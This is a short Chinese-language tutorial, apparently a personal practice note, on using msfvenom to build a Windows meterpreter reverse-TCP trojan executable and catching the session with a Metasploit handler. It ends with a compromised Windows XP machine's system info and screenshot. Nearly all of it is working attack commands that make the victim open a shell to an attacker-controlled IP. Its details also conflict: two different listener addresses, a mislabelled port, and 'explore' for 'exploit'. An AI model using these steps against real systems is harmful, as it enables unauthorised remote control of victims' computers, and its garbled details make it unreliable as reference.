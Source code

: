 # msfvenom练习

msfvenom是msfpayload,msfencode的结合体,它的优点是单一,命令行,和效率.利用msfvenom生成木马程序,并在目标机上执行,在本地监听上线

## 1、生成exe木马

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.127 LPORT=4444 -f exe -o 123.exe
```

212.129.238.18是攻击者的监听机器，4444是被攻击机器监听端口

### 开启kali监听

启动msfconsole

![image-20220317151928134](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cwlr427jj20hg0gkta3.jpg)

#### 开启监听

```
use exploit/multi/handler
```



#### 设置tcp监听

```
set payload windows/meterpreter/reverse_tcp

set lhost 212.129.238.18
```

![image-20220317152306277](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cwpjmmdoj20uk0e640c.jpg)



#### 输入explore开始监听

### 木马上线

当被攻击的机器（我的是windows xp）点击生成的123.exe木马时，即可以监听到木马上线

![image-20220317152638860](/Users/oo/Library/Application Support/typora-user-images/image-20220317152638860.png)

查看系统信息

![image-20220317134219094](https://tva1.sinaimg.cn/large/e6c9d24ely1h0ctsnxma7j20zs08caaq.jpg)

查看系统截图

![image-20220317134233725](https://tva1.sinaimg.cn/large/e6c9d24ely1h0ctsy65qqj217v0u0wjd.jpg)

等等可以一系列后渗透操作。。
